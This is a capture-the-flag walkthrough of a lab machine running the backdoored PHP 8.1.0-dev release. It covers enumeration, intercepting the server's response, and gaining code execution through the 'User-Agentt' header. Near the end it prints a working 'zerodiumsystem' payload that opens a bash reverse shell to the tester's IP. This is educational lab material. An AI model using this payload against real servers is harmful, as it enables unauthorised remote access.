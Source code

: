 The links didn't redirect anywhere and the source code didn't seem to contain any useful information. At this point, I decided to start by performing some additional web enumeration. The output of the Gobuster and ffuf scans are provided below:

<details></details>


As shown above, there were no new directories or subdomains identified during the initial enumeration phase. I decided to take a step back and intercept the web application requests through the use of Burpsuite. The initial response to `/index.php` is provided below:

```html
HTTP/1.1 200 OK
Date: Mon, 24 May 2021 13:17:51 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Content-Length: 5815
Connection: close
Content-Type: text/html; charset=UTF-8
```

The captured response provided the only new piece of information that I had to go on, the application made use of `PHP\8.1.0-dev`.

> PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

The vulnerable code was identified here: <https://news-web.php.net/php.internals/113838>. In order to exploit this on the host, I needed to abuse the `User-Agentt` header. 
I added in the header calling the `zerodiumsystem` command which ran the system command on the host:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Knife/img2.png"  style="width: 100%" />
</p>


Now that I had code execution, I used the following bash command to obtain a reverse shell on the host:

```bash
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.80/9001 0>&1'");

```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Knife/img3.png"  style="width: 80%" />
</p>
